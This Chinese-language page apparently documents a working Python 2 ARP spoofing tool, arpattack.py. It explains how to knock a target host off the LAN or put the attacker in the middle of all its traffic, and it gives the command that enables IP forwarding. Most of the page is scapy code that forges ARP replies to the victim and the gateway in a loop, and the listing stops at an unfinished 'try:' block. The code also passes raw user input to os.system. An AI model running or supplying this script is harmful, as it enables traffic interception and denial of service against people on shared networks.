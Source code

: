 # 1、ARP脚本

条件：Python版本为2；Linux环境

while 1:

​	pass

上述代码作用：防止子线程未结束而主线程就已停止

该脚本作用：根据输入IP查找该主机在局域网内是否存活，再ARP欺骗该主机和网关，使该主机无法上网，本机为中间人；若本机开启IP转发，则该主机可以上网，其所有上网流量流经本机

开启IP转发（kali系统）：echo 1 > /proc/sys/net/ipv4/ip_forward

0为关闭，1为开启



arpattack.py

```python
#!/usr/bin/python

import commands
import os
import thread
from scapy.all import *

while 1:
    object_ip = raw_input("Input the host IP you want to attack(input example:  0.0.0.0  ):\t")
    result = os.system("ping %s -c 4 -t 1 | grep -q \"Unreachable\"" %object_ip)
    if(result == 0):
    	print("Host %s is down, please input the correct IP again!" %object_ip)
    	continue
    else:
    	break

my_mac = commands.getoutput("ifconfig | grep ether | awk '{print $2}'")

gateway_ip = commands.getoutput("arp -a | grep _gateway | awk '{print $2}' | awk -F '[()]' '{print $2}'")

gateway_mac = commands.getoutput("arp -a | grep _gateway | awk '{print $4}'")

object_mac = commands.getoutput("arp -a | grep %s | awk '{print $4}'" %object_ip)



def attackGatway(my_mac, gateway_ip, gateway_mac, object_ip):
    ether = Ether(dst = gateway_mac)
    arp = ARP(psrc = object_ip, hwsrc = my_mac, pdst = gateway_ip, hwdst = gateway_mac, op = 2)
    pkg = ether / arp
    pkg.show()
    print("\n------------------------------------------------------------\n")
    srploop(pkg)


def attackOther(my_mac, object_ip, object_mac, gateway_ip):
    ether = Ether(dst = object_mac)
    arp = ARP(psrc = gateway_ip, hwsrc = my_mac, pdst = object_ip, hwdst = object_mac, op = 2)
    pkg = ether / arp
    pkg.show()
    print("\n------------------------------------------------------------\n")
    srploop(pkg)


try:
```